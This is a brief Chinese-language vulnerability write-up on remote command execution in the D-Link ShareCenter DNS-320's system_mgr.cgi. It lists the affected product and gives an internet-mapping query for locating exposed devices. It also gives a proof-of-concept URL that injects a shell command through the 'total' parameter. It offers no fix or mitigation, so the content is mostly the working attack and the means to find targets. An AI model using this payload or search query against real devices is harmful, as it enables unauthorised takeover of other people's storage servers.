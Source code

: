 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
D-Link ShareCenter DNS-320
```

## 网络测绘

```
app="D_Link-DNS-ShareCenter"
```

## 漏洞复现

登录页面如下

![](./images/202202162224540.png)

漏洞POC为

```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![](./images/202202162224614.png)